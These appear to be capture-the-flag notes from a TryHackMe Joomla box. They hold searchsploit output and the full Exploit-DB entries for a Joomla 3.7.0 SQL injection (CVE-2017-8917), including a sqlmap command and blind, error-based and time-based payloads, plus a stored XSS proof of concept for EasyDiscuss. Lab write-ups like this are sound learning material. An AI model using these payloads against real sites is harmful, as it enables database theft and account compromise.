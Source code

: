 
```sh
┌──(kali㉿kali)-[~]
└─$ searchsploit joomla 3.7.0            
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                  | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                               | php/webapps/43488.txt
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```


```sh
┌──(kali㉿kali)-[~/thm/dailybugle]
└─$ cat 42033.txt                                           
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)            ```


```sh
┌──(kali㉿kali)-[~/thm/dailybugle]
└─$ cat 43488.txt 
# Exploit Title: Joomla Plugin Easydiscuss <4.0.21 Persistent XSS in Edit Message
# Date: 06-01-2018
# Software Link: https://stackideas.com/easydiscuss
# Exploit Author: Mattia Furlani
# CVE: CVE-2018-5263
# Category: webapps

1. Description

Whenever a user edits a message with <\textarea> inside the body, everything after the <\textarea> will be executed in the user’s browser. Works with every version up to 4.0.20


2. Proof of Concept

Login with permissions to post a message, insert <\textarea> in the body and add any html code after that, whenever a user tries to edit that message the code writed after you closed the textarea will be executed


3. Solution:

Update to version 4.0.21
https://stackideas.com/blog/easydiscuss4021-update  
```

googling: sqli python script 2017-8917

https://github.com/stefanlucas/Exploit-Joomla

messing with the script. made it py3
making it shorter, to understand better


